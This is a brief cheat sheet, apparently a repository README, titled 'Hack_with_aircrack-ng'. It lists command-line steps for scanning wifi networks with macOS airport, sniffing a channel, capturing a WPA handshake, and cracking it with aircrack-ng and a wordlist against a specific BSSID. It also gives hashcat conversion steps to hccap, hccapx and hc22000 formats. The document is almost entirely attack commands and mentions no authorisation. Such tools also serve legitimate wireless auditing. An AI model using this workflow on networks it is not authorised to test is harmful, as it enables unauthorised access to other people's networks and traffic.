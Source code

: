 # Hack_with_aircrack-ng

_______Part #1 - aircrack-ng ______

-- Look for wifi --
airport -s

-- Look disable --
sudo airport -z

-- Sniff wifi interface + kanal --
sudo airport en0 sniff 6

-- Look for handshake --
aircrack-ng /tmp/airportSniffQ2qvVj.cap

-- Start crack --
aircrack-ng -w wordlist.txt -b 6A:41:47:CF:3E:9C /tmp/airportSniffQ2qvVj.cap

-- Make hccap --
aircrack-ng -b 6A:41:47:CF:3E:9C -J name  /tmp/airportSniffQ2qvVj.cap

-- Make hccapx --
aircrack-ng -b 6A:41:47:CF:3E:9C -j name  /tmp/airportSniffQ2qvVj.cap

_______Part #2 - Hashcat ______

-- Convert to hc22000 website --
https://hashcat.net/cap2hccapx/

-- Convert to hc22000 --
hcxpcapngtool -o hash.hc22000 -E wordlist dumpfile.pcapng


____________________
Test
____________________
